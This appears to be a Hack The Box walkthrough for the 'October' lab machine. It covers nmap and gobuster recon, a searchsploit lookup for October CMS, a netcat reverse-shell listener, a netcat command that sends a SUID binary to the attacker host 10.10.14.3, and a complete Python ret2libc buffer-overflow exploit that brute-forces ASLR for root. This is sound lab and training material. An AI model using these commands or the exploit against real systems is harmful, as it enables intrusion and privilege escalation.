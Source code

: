 # October Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -sC -sV -oA october 10.10.10.16 -T4``

![image](https://user-images.githubusercontent.com/123066149/228842989-9c33449e-596b-4a3e-89db-d4963ed5ca07.png)

``sleep 200; nmap -p- -sV -T4 -oA fulloctober 10.10.10.16``

![image](https://user-images.githubusercontent.com/123066149/228843209-b6fbd08e-23f9-456e-b4f0-95e8ead1bd12.png)

``gobuster dir -u http://10.10.10.16/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt``

![image](https://user-images.githubusercontent.com/123066149/228845053-f2490276-2876-46b8-8247-a570d05fd902.png)

# ${{\color{purple}Initial Foothold}}\ $

![image](https://user-images.githubusercontent.com/123066149/228845266-0904b020-a36c-4e3c-87ee-0fc0bade3191.png)

![image](https://user-images.githubusercontent.com/123066149/228845324-aaa12122-0842-4bde-934c-be5c4f271f22.png)

``searchsploit october CMS``

![image](https://user-images.githubusercontent.com/123066149/228845514-7d1c136d-d33f-498b-88f5-b899f22b2e42.png)

``searchsploit -x php/remote/47376.rb | grep URL``

![image](https://user-images.githubusercontent.com/123066149/228846440-2c797231-441d-41dd-9eff-33fbd0c232bb.png)

![image](https://user-images.githubusercontent.com/123066149/228846964-01f906b4-012b-4b15-93f2-163d87fbbca8.png)

![image](https://user-images.githubusercontent.com/123066149/228847236-78e4ba05-4dae-4a31-a2ff-5221fb294127.png)

# ${{\color{purple}Exploitation}}\ $

![image](https://user-images.githubusercontent.com/123066149/228847588-dec9ee25-1d81-47f3-8850-23dcf10552ec.png)

``nc -nlvp 1234``

![image](https://user-images.githubusercontent.com/123066149/228847746-c2c5a1ef-1756-4ded-a5b2-c4cd953cd5c1.png)

# ${{\color{purple}Privilege Escalation}}\ $

``find / -perm -4000 2>/dev/null``

![image](https://user-images.githubusercontent.com/123066149/228848043-e31e5e3a-e793-4f11-8e72-3cd151bb67ff.png)

### Transfert file from client to kali

``nc -w 5 10.10.14.3 999 < /usr/local/bin/ovrflw``

``nc -l -p 999 > ovrfl``

![image](https://user-images.githubusercontent.com/123066149/228850260-f2eabad3-353c-4757-83b9-52b18d1d9a92.png)

### Check integrity:

``md5sum ovflw ``

![image](https://user-images.githubusercontent.com/123066149/228850724-35bd36f6-0ddd-4f8c-8bb7-30472dc50f50.png)

### Check kernel version:

``uname -a ``

![image](https://user-images.githubusercontent.com/123066149/228850943-6b897819-d22e-4c2c-a667-90a9f193c75a.png)

``cat /etc/lsb-release``

![image](https://user-images.githubusercontent.com/123066149/228850983-e5219221-7604-4f83-ac42-eeb87c148b9a.png)

![image](https://user-images.githubusercontent.com/123066149/228851291-86389ba2-23d9-4982-93f9-9bc4544c026f.png)

``/usr/local/bin/ovrflw``

![image](https://user-images.githubusercontent.com/123066149/228851397-4db84aab-b7d8-438c-b94f-75d7ab251710.png)

``gdb ovrfl``

``disas main``

![image](https://user-images.githubusercontent.com/123066149/228851968-26270622-8120-446d-846e-23d5ad02dbd0.png)

``msf-pattern_create -l 300``

![image](https://user-images.githubusercontent.com/123066149/228852426-077a99ae-7fac-4fad-956c-e9aced1953c4.png)

![image](https://user-images.githubusercontent.com/123066149/228852654-a2249290-a840-4a6f-b924-265731a8b713.png)

![image](https://user-images.githubusercontent.com/123066149/228948787-fdb9da19-c7d3-4e21-9a6a-3fce64a43c4e.png)

![image](https://user-images.githubusercontent.com/123066149/228948867-48228b79-0142-4535-90d6-2d3629a51438.png)

### get system address

``p system``

### check ASLR

``ldd /usr/local/bin/ovrflw | grep libc`` 


![image](https://user-images.githubusercontent.com/123066149/228949233-724b39da-cd64-49a7-be5b-31443bf8c213.png)


### Find system address :

``readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system``

![image](https://user-images.githubusercontent.com/123066149/228949395-2beecb7d-3929-44ec-855e-604195002920.png)

### Finf exit address :

``readelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit``

![image](https://user-images.githubusercontent.com/123066149/228949547-9236cd8b-52e2-43db-847d-37d20999e552.png)

### Find /bin/sh address :

``strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh``

![image](https://user-images.githubusercontent.com/123066149/228949734-9e4e3f38-e4fb-4eb7-a9e4-cb9c3b3a7b94.png)

### The exploit :

![image](https://user-images.githubusercontent.com/123066149/228950185-e462d734-0323-4e7c-ba7a-6949d30c7bd1.png)

``#!/usr/bin/python3

from struct import pack
from subprocess import call

offset = 112
junk = b"A"*offset

#ret2libc -> system_addr + exit_addr + bin_sh_addr

base_libc_addr = 0xb7602000

system_addr_off = 0x00040310
exit_addr_off = 0x00033260
bin_sh_addr_off = 0x00162bac

system_addr = pack("<L", base_libc_addr + system_addr_off)
exit_addr = pack("<L",base_libc_addr + exit_addr_off)
bin_sh_addr = pack("<L", base_libc_addr + bin_sh_addr_off)

payload = junk + system_addr + exit_addr + bin_sh_addr

while True:
        ret = call(["/usr/local/bin/ovrflw", payload])``
        
        
# ${{\color{purple}Point of Improvement}}\ $
